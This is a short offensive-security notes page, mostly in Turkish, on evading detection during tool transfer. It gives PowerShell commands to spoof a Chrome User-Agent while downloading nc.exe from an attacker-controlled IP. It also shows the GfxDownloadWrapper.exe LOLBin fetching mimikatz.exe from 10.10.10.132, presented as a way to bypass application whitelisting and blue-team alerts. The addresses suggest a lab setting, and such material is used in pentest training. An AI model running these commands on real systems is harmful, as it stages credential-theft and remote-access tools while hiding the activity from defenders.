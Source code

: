 ```yaml
---
icon: material/circle-small
---
```


# Evading Detection

## Changing User Agent

Yöneticiler User-Agent dizelerinden herhangi birini kara listeye almışsa `Invoke-WebRequest` fonksiyonu kullanılarak varsayılan User-Agent değiştirilebilir. Örneğin Chrome dahili olarak kullanılıyorsa, ilgili User-Agent dizesinin ayarlanması isteğin meşru görünmesini sağlayabilir.

### Listing out User Agents

```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name, @{ label="User Agent"; Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)} } | fl
```

```text title="Output"
Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
```

### Request with Chrome User Agent

```powershell
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome; Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

## LOLBAS / GTFOBins

Belirli uygulamaların beyaz listeye alınması, PowerShell veya Netcat araçlarının kullanılmasına engel olabilir. Ayrıca komut satırı günlükleri mavi takımı uyarabilir. Bu durumda LOLBins kullanmak gerekli olabilir. Örnek bir LOLBin, bazı sistemlere yüklenen `GfxDownloadWrapper.exe` sürücüsüdür ve yapılandırma dosyalarını düzenli aralıklarla indirme işlevini içerir.

Bu indirme işlevi aşağıdaki şekilde çağrılabilir:

```batch
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

Bu tarz programlar beyaz listeye alınarak çalıştırılmasına izin verilebilir ve uyarıların dışında bırakılabilir.
